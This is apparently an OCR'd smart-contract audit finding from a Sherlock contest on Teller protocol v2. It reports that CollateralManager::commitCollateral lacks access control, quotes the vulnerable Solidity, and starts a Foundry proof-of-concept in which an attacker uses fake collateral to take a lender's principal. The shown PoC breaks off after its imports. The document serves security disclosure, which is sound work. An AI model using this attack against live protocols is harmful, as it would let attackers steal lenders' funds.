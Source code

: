 immeas

high

# `CollateralManager::commitCollateral` has no access control

## Summary
Anyone can call `CollateralManager::commitCollateral` causing all sorts of havoc.

## Vulnerability Detail
When creating a bid backed by collateral a borrower commits to that collateral:

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L138-L147
```solidity
File: CollateralManager.sol

138:    function commitCollateral(
139:        uint256 _bidId,
140:        Collateral calldata _collateralInfo
141:    ) public returns (bool validation_) {
142:        address borrower = tellerV2.getLoanBorrower(_bidId);
143:        validation_ = _checkBalance(borrower, _collateralInfo);
144:        if (validation_) {
145:            _commitCollateral(_bidId, _collateralInfo);
146:        }
147:    }
```
Just showing the single call here but everything applies for the batch call as well.

This call will write `_bidCollaterals` which is how much collateral will be deposited once a lender takes the bid. The issue here is, as you see, anyone can call this.

PoC for the most impactful attack. An attacker can accept a lender commitment, use a fake collateral to reduce the collateral needed to `1 wei` then make it away with the lender principal - market fees.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { UpgradeableBeacon } from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";

import { TellerV2 } from "../contracts/TellerV2.sol";
import { CollateralManager } from "../contracts/CollateralManager.sol";
import { LenderCommitmentForwarder } from "../contracts/LenderCommitmentForwarder.sol";
import { CollateralEscrowV1 } from "../contracts/escrow/CollateralEscrowV1.sol";
import { Collateral, CollateralType } from "../contracts/interfaces/escrow/ICollateralEscrowV1.sol";

import { ReputationManagerMock } from "../contracts/mock/ReputationManagerMock.sol";
import { LenderManagerMock } from "../contracts/mock/LenderManagerMock.sol";
import { MarketRegistryMock } from "../contracts/mock/MarketRegistryMock.sol";

import {TestERC20Token} from "./tokens/TestERC20Token.sol";

import "lib/forge-std/src/Test.sol";

contract AttackerContract {

    CollateralManager collateralManager;
    TestERC20Token collateralToken;

```